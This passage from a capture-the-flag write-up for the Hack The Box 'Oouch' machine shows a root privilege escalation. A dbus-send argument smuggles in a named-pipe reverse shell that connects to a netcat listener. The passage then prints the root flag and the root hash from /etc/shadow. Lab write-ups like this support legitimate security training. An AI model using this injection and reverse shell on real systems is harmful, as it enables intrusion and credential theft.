 - `www-data` can receive and send message from dbus.
- `www-data` owns uwsgi.

It's always better with a PTY.

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
```

We start a listener on oouch machine:

```
$ nc -nlvp 9999
```

Now we can use `dbus-send` to gain a root shell:

```
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block "string:;rm /tmp/.noraj; mkfifo /tmp/.noraj; cat /tmp/.noraj | /bin/bash -i 2>&1 | nc 172.17.0.1 9999 >/tmp/.noraj;"
```

And we receive the root shell:

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [172.17.0.1] from (UNKNOWN) [10.10.10.177] 37180
bash: cannot set terminal process group (2688): Inappropriate ioctl for device
bash: no job control in this shell
root@oouch:/root# id
uid=0(root) gid=0(root) groups=0(root)
root@oouch:/root# cat root.txt
cat root.txt
ff9e6428ad626cb968daba6eb1d33540
```

### Bonus

To unlock some WU we will need the root hash:

```
# cat /etc/shadow | grep root
root:$6$UQS7GJnfVbWRz5KO$vEaGmrfKvdrqh50eCr7D3AAruNfPe1dYhiv..ykDhlWWYvgaoabrqujg51k60bQz3jgTx.yXh5jCHNZ6ArkQ.1:18303:0:99999:7:::
```

[nmap]:https://inventory.raw.pm/tools.html#Nmap
[ffuf]:https://inventory.raw.pm/tools.html#ffuf
[burp]:https://inventory.raw.pm/tools.html#Burp%20Suite
